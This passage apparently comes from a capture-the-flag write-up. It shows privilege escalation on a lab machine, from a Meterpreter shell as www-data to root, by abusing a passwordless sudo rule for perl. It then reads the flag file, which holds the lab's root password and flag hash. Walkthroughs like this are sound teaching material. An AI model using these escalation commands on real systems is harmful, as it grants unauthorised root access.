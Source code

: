 #### Privilege Escalation

We spawn a shell:

```bash
meterpreter > shell
Process 2865 created.
Channel 1 created.
whoami
www-data
```
Check sudo privileges:

```bash
sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Since perl has unrestricted sudo access, we exploit it:

```bash
sudo perl -e 'exec "/bin/bash";'

whoami
root
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
examples.desktop
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6


```